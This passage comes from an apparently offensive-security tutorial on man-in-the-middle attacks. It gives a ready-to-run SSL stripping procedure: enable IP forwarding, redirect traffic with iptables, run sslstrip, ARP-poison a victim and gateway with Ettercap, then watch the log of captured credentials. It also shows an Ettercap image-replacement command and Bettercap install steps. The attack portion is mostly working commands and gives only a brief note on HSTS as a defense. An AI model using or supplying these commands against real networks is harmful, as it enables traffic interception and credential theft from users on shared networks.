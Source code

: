 ```bash
ettercap -T -q -i eth0 -M arp:remote /192.168.1.5/ /192.168.1.1/ -F replace_image.ef
```

### Example: SSL Stripping Attack

SSL stripping downgrades HTTPS connections to HTTP, allowing an attacker to intercept traffic that would otherwise be encrypted. Here's how to perform an SSL stripping attack with Ettercap:

1. Enable IP forwarding:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

2. Set up iptables to redirect HTTPS traffic to the SSLstrip tool:

```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

3. Start SSLstrip:

```bash
sslstrip -l 8080
```

4. Launch Ettercap to perform ARP poisoning:

```bash
ettercap -T -q -i eth0 -M arp:remote /192.168.1.5/ /192.168.1.1/
```

5. Monitor captured credentials:

```bash
tail -f sslstrip.log
```

This attack exploits the fact that many users:
- Initially connect to websites via HTTP before being redirected to HTTPS
- Don't notice when the expected HTTPS connection is downgraded to HTTP
- Enter credentials even when security indicators (padlock icon) are absent

Modern defenses like HTTP Strict Transport Security (HSTS) and browser warnings have reduced the effectiveness of basic SSL stripping, but many internal applications and less popular websites remain vulnerable.

## Bettercap: Network Attack Toolkit

Bettercap is a modern, powerful, and easily extensible MITM framework that has largely replaced Ettercap in many scenarios. It offers a modular architecture with a wide range of capabilities beyond basic ARP spoofing.

### Installation

```bash
# On Kali Linux
sudo apt update
sudo apt install bettercap

# From source
sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
go get github.com/bettercap/bettercap
```
